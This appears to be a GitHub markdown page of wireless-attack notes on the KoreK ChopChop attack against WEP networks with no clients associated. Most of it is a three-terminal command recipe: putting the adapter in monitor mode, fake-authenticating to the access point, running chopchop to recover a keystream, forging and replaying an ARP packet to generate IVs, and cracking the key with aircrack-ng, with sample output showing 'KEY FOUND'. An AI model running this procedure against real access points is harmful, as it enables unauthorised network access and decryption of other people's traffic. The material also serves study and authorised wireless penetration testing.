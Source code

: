 # Korek ChopChop Attack (Clientless) (WEP)

This attack, when successful, can decrypt a WEP data packet without knowing the key. It can even work against dynamic WEP. This attack does not recover the WEP key itself, but merely reveals the plaintext. However, some access points are not vulnerable to this attack. Some may seem vulnerable at first but actually drop data packets shorter that 60 bytes. If the access point drops packets shorter than 42 bytes, aireplay tries to guess the rest of the missing data, as far as the headers are predictable. If an IP packet is captured, it additionally checks if the checksum of the header is correct after guessing the missing parts of it. This attack requires at least one WEP data packet.

## Commands

* Run [setup](../../setup.md) first
* Three terminals are needed
* NO clients associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack with prolonged reassociation timing (every 60 secs)
sudo aireplay-ng --fakeauth 60 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# [Terminal Three]
sudo aireplay-ng --chopchop -b $BSSID -h $INTERFACEMAC $INTERFACE

# Wait for 'Use this packet y' then enter y
# Wait for a loooong time to reach 100% done.
# It's possible to use less than 100% but risky
# Look for a replay_dec-*.xor file

# Forge a fake packet, -l source, -k destination
sudo packetforge-ng -0 -a $BSSID -h $INTERFACEMAC -l 255.255.255.255 -k 255.255.255.255 -y replay_dec-0613-175215.xor -w inject.cap

# Check veracity of file
tcpdump -n -vvv -e -s0 -r inject.cap

reading from file inject.cap, link-type IEEE802_11 (802.11), snapshot length 65535
17:55:05.191216 Protected 258us BSSID:AA:BB:CC:DD:EE:FF SA:FF:EE:DD:CC:BB:AA DA:ff:ff:ff:ff:ff:ff Data IV:5cbca Pad 0 KeyID 0

# Run the interactive attack against the client
sudo aireplay-ng --interactive -r inject.cap $INTERFACE

# Watch for the data to explode in size with lots of IVs :)
# If successful, data should get large
# Stop everything

# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```

* View the output for the success message

```
Reading packets, please wait...
Opening wifu-01.cap
Read 441431 packets.

   #  BSSID              ESSID                     Encryption

   1  00:9F:A9:24:B9:28  wifu                      WEGot 74852 out of 70000 IVsStarting PTW attack with 74852 ivs.
                     KEY FOUND! [ 31:32:33:34:35 ] (ASCII: 12345 )
ChoosingDecrypted correctly: 100%
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [KoreK ChopChop](https://www.aircrack-ng.org/doku.php?id=korek_chopchop)
* [ChopChop Theory](https://www.aircrack-ng.org/doku.php?id=chopchoptheory)
* [Learning Thing](https://www.youtube.com/watch?v=2mrmqF4P0DM&ab_channel=learningthing)

